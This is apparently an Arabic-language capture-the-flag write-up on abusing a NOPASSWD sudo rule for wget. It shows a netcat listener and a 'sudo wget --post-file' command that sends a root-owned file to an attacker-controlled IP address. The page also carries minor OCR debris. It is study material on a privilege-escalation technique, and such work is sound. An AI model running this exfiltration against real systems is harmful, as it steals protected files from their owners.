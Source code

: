 ### لو عملت :
```
sudo -l
```
### ولقيت النتيجه كده :
![Pasted image 20250322015037.png](attachments/Pasted image 20250322015037.png)
### يعني اي ده :
- المستخدم user لديه صلاحية **تشغيل `wget` بصلاحيات الروت** **بدون الحاجة لإدخال كلمة مرور** (`NOPASSWD`).
- هذا يعني أنه يمكنه تنفيذ أوامر باستخدام `wget` للوصول إلى ملفات النظام الحساسة.

### تقدر تستغلها لل Post-Exploitation  ازاي :

#### 1. روح اعمل listen علي port :
```
nc -nvlp 1234
```

اعمل الامر التالي :
### **❖ تنفيذ الأمر التالي على الجهاز المُستهدف**: علشان احمل ملف اسمه root_flag.tx

bash

CopyEdit

```
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.58.1:1234
```

🔍 **شرح الأمر:**

-ء **`sudo`** → تشغيل الأمر بصلاحيات `root`.
-ء **`/usr/bin/wget`** → تشغيل `wget` لنقل البيانات.
- ء **`--post-file=/root/root_flag.txt`** → تحميل محتوى الملف `/root/root_flag.txt` وإرساله إلى الوجهة المحددة.
- ء **`http://10.17.58.1:1234`** → إرسال البيانات إلى **الخادم المستمع (Netcat Listener) على جهازنا المحلي**.